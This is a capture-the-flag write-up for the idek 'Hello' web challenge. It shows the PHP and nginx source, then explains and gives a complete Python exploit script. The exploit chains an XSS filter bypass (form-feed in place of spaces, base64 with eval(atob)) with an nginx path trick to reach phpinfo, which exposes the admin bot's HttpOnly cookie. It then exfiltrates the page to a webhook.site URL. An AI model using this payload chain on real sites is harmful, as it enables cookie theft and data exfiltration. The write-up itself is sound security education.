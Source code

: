 +++
title = 'Hello'
tags = [
  "Web",
  "Php",
  "Xss",
  "140 points",
  "141 solves",
  "Abdelhameed Ghazy",
]
date = 2024-08-18T12:58:59+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Hello</h1>

**Description**: Just to warm you up for the next Fight :"D

## Introduction

Then we have an apparently empty page, but where we can via a ?name= parameter enter some text, the page will then respond with hello, {text entered}

The with an ngix server

Moreover, ctf in general gives us the possibility of using an admin bot where the flag is set in the cookies

## Source

```php
# filename: index.py

<?php


function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}


if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>

```

```php
# filename: info.py

<?php
phpinfo();
?>

```

```ngix
# filename: ngix.conf


user www-data;
worker_processes 1;

events {
worker_connections 1024;
}

http {
include /etc/nginx/mime.types;
default_type application/octet-stream;

    sendfile        on;
    keepalive_timeout  65;

    server {
        listen       80;
        server_name  localhost;

        location / {
            root   /usr/share/nginx/html;
            index  index.php index.html index.htm;
        }

        location = /info.php {
        allow 127.0.0.1;
        deny all;
        }

        location ~ \.php$ {
        root           /usr/share/nginx/html;
        fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
        include fastcgi_params;
        fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
        }

    }

}
```

As you can see, there are 3 main files to focus on

1. The first is the index file where we see how the page works and the filters used, in particular the fact that we cannot use /, spaces, etc.
2. An info.php file which is definitely suspect and not normally needed but probably has a purpose in the challange
3. And the ngix configuration file, which is very important because it is the one that prevents us from accessing info.php in a simple way.

## Solution

This challange is very nice in my opinion neither too difficult nor too complex, it mixes different vulnerabilities in a really nice way...

The first one is designed to catch the cookie because in the configuration of bot.js we see that the cookie is set to httpOnly which makes the extraction much more difficult but looking a little online we understand why it is present that info.php in fact the function phpinfo() as well as show several parameters of the php configuration and other information also shows the cookies present at that time ... SO HERE'S THE TARGET AND GET THE OWN BOT TO OPEN /info.php

But how can we do this?

The first step is to be able to inject a payload that opens info.php and sends the file somewhere

The only entrypoint we see is `?name=` which is not sanitized in the best way, in fact by making `<h1>BTC` (we make sure that the tag closes itself otherwise the final / will filter out) we notice that the h1 is rendered and this is ' a first sign that we can do an xss even if we note that the classic `<script>alert('ByteTheCookies')` doesn't work, probably some php configuration or some police, so the xss would be slightly more complex but we can exploit the onerror parameter of img with some changes in fact if we insert a classic `<img src='invalid.jpg' onerror="alert('ByteTheCookies')"` It will be sanitized by removing the spaces and will not allow the xss to be executed. But we can bypass this very easily, in fact by looking for some bypasses on HackTricks and trying some of them we notice that the payload `<img%0Csrc="invalid.jpg"onerror="alert('ByteTheCookies')"` works

GOOD we managed to bypass the xss now we have to create the payload we need...

In particular I used: `fetch('{target}').then(r=>r.text()).then(t=>{fetch('{url_webhook}',{method:'POST',body:(f=new FormData(),f.append('file',new Blob([t],{type:'text/plain'}),'phpinfo.txt'),f)});console.log('Data sended');});`

This payload makes a first request and sends the content to a webhook in the form of a file so it's all very simple

However, the problem arises in fact if this payload is sent it will not work because the URLs contain / which will be removed and this is a significant problem

To bypass this, however, we can use a very simple trick, We just need to previously encode the payload in base64 and use an `eval(atob(payload))`

By sending this in the url we can make the payload work without problems. FINISHED RIGHT?

No, because analyzing the nginx configuration we notice a significant detail

```ngix
location = /info.php {
        allow 127.0.0.1;
        deny all;
        }
```

As we see /info.php can only be reached from localhost and spoiler our bot is not on the same server as the challenge

This may seem like a major obstacle but in reality by searching the internet for ngix bypasses we can find something very [interesting](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)

As we see on hacktricks we notice that if we insert an accessible page immediately after a non-accessible page in the ngix url it redirects us correctly to the non-accessible page and this is exactly what we need

So the final solution becomes:

```python
# filename: exploit.py

import base64

url = "http://idek-hello.chal.idek.team:1337/"
url_webhook = 'https://webhook.site/8b10c871-1e0b-4050-8
2e3-e102a73da54e'
url_admin = 'https://admin-bot.idek.team/idek-hello'

def main():

    # Bypass hacktrics https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm
    target = "http://idek-hello.chal.idek.team:1337/info.php/index.php"

    exploit = ("fetch('" + target + "').then(r=>r.text()).then(t=>{fetch('"+url_webhook+"',{method:'POST',body:(f=new FormData(),f.append('file',new Blob([t],{type:'text/plain'}),'phpinfo.txt'),f)});console.log('Dati inviati al webhook');});").encode()

    main_payload = base64.b64encode(exploit).decode()

    payload = """<img%0Csrc="invalid.jpg"onerror="eval(atob('""" + main_payload + """'));">""" # Bypassed with %0C

    final_url_whith_exploit = f"{url}?name={payload}"

    print(f"Final url: {final_url_whith_exploit}") # Send the url on the admin bot and download the file on webhook.site

    print(f"Now copy and paste the url on the admin bot: {url_admin} and send the requeste to the admin bot, after this go to the webhook.site and download the file and search the flag in the file")

if __name__ == '__main__':
  main()

```

```stdout
$ flag: idek{Ghazy_N3gm_Elbalad}
```

<p align='right'>Author: akiidjk </p>

